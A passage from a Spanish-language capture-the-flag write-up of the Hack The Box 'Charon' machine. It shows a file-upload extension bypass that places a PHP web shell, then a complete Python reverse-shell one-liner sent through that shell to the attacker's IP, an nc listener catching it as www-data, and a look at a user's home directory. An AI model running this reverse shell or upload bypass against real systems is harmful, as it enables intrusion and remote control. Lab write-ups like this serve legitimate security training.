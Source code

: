 Y vemos que con dicho campo podemos modificar el nombre del archivo, por lo tanto podríamos subir nuevamente nuestra shell `shell.gif` y aprovechando el campo para cambiar la extensión.

![](/assets/images/htb-charon/charon-web13.png)

Ahora vamos a validar en la ruta que se nos indica `/images/shell.php`:

![](/assets/images/htb-charon/charon-web14.png)

Ya logramos ejecución de comandos a nivel de sistema, así que ahora nos queda es entablarnos una reverse shell, por lo que nos ponemos en escucha a través del puerto 443.

```bash
http://10.10.10.31/images/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.31] 56646
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya estamos dentro de la máquina, así que primero vamos a realizar un [Tratamiento de la tty](/tratamiento-tty) para trabajar más cómodos. Vemos que no podemos visualizar la primera flag, así que vamos a enumerar un poco para ver la forma de migrar a otro usuario o escalar privilegios.

```bash
www-data@charon:/home/decoder$ ls -l
total 12
-rw-r--r-- 1 decoder freeeze 138 Jun 23  2017 decoder.pub
-rw-r--r-- 1 decoder freeeze  32 Jun 23  2017 pass.crypt
-r-------- 1 decoder freeeze  33 Jun 23  2017 user.txt
www-data@charon:/home/decoder$
```
